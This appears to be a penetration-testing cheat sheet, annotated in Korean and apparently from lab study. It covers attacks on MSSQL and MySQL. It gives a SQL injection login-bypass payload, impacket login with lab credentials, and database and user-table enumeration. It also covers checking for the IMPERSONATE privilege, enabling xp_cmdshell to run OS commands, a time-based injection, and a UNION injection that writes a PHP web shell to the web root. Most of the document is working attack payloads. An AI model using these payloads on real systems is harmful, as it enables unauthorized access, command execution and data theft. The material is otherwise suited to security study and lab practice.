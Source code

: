 # Login Bypass
```sql
'OR ''='
```

# 🗂 MSSQL Client Connection

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ **Impacket**의 `mssqlclient.py`를 사용하여 MSSQL 서버에 접속.  
→ `-windows-auth` 옵션은 **Windows 인증**을 사용하여 로그인.

```sql
SELECT @@version;
```
→ MSSQL 서버 버전 확인

```sql
enum_db
```
→ enumeration DB

```sql
SELECT * FROM offsec.information_schema.tables;
```
→ 데이터베이스 `offsec`의 모든 테이블 목록 확인

```sql
SELECT * FROM offsec.dbo.users;
```
→ 데이터베이스 `offsec`의 `users` 테이블 내용 조회

---
# SQL Server - IMPERSONATE 권한 확인
```sql
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
    ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';

EXECUTE AS LOGIN = 'hrappdb-reader'
```
1. **`sys.server_permissions`**
   - SQL Server의 서버 수준 권한 정보를 담고 있는 시스템 뷰입니다.
   - `permission_name` 컬럼에 어떤 권한이 부여됐는지 표시됩니다.

2. **`sys.server_principals`**
   - 서버 수준에서 정의된 보안 주체(Principal) 정보를 담고 있는 뷰입니다.
   - 로그인 계정, Windows 로그인, SQL 로그인, 서버 역할 등이 포함됩니다.

3. **JOIN 조건**
   ```sql
   ON a.grantor_principal_id = b.principal_id
   ```
   - 권한을 부여한 **Grantor(부여자)** 의 ID를 보안 주체와 매칭합니다.
   - 즉, 누가 이 권한을 부여했는지를 확인할 수 있습니다.

4. **WHERE 조건**
   ```sql
   WHERE a.permission_name = 'IMPERSONATE'
   ```
   - `IMPERSONATE` 권한만 필터링합니다.
   - 이는 다른 계정으로 가장할 수 있는 권한을 의미합니다.
---
# 💻 MSSQL Code Execution

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ 서버 접속 후, **xp_cmdshell** 기능을 활성화하여 시스템 명령어 실행

```sql
-- 1️⃣ 고급 옵션 보기 허용
EXECUTE sp_configure 'show advanced options', 1;
```
> MSSQL의 `sp_configure`는 서버 설정 값을 변경하는 명령입니다.  
> `'show advanced options'` 값을 1로 설정하면, 기본적으로 숨겨져 있는 고급 설정 옵션(예: xp_cmdshell)을 볼 수 있게 됩니다.

```sql
-- 2️⃣ 설정 적용
RECONFIGURE;
```
> 변경한 설정을 즉시 적용합니다.  
> `sp_configure`로 값을 바꾸더라도 `RECONFIGURE`를 실행하지 않으면 실제 적용되지 않습니다.

```sql
-- 3️⃣ xp_cmdshell 기능 활성화
EXECUTE sp_configure 'xp_cmdshell', 1;
```
> `xp_cmdshell`은 SQL 쿼리에서 직접 OS 명령어를 실행하게 해주는 확장 저장 프로시저입니다.  
> 기본적으로 보안상 이유로 비활성화(0) 되어 있습니다.  
> 여기서 1로 설정하여 기능을 켭니다.

```sql
-- 4️⃣ 설정 적용
RECONFIGURE;
```
> 마찬가지로 변경한 `xp_cmdshell` 설정을 즉시 적용합니다.

```sql
-- 5️⃣ OS 명령어 실행
EXECUTE xp_cmdshell 'whoami';
```
> `xp_cmdshell`을 사용해 OS 명령어(`whoami`)를 실행합니다.  
> 결과로 현재 SQL 서버 프로세스가 실행 중인 **Windows 계정**이 출력됩니다.

---


# 🐬 MySQL Code Execution
```sql
' UNION SELECT sleep(5);-- -
```
→ URL ENCODED로 실행해보기

→ 띄워쓰기 on/off

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
→ SQL 인젝션을 통해 PHP 웹셸 생성  
→ `INTO OUTFILE`을 사용하여 지정 경로(`/var/www/html/tmp/webshell.php`)에 파일 작성  
→ 생성된 파일에 접근 후, `cmd` 파라미터를 통해 명령어 실행 가능  
→ 예: `http://target/tmp/webshell.php?cmd=id`

---
